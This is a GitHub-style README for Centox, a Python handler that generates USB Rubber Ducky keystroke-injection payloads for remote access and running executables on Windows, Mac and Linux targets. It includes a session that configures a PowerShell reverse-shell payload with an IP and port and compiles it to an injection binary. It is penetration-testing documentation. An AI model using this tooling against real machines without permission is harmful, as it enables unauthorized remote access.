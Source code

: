 <p align="center">
    <img src="/assets/media/logo.png" height="200">
</p>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to provide a collection of injection
payloads written for the [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/)
which was designed by [Hak5](https://shop.hak5.org/). This project contains payloads designed for 
establishing remote access, deploying and running executables and more in as short time as possible.
Centox comes with payloads designed Windows, Mac and Linux with the assumption that the target has not
modified their default shortcuts.


## Disclaimer

This project was designed for testing purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  -------------------------------
list       lists all available payloads
use        choose a payload to use
set        sets payload argument variables
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payloads:
```
[Centox] $ use windows/shell/powershell
 
[Centox] $ options
 
 Payload: windows/shell/powershell
 
Argument       Value
-------------  -------
start_delay    500
ip
port
windows_admin  false
 
[Centox] $ set ip 192.168.68.42
 
[Centox] $ set port 9999
 
[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpfeccetz0
[*] writing raw payload to -> /tmp/tmpfeccetz0/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```

## Compatibility
- [x] USB Rubber Ducky
- [ ] Arduino Injectors
- [ ] Bash Bunny
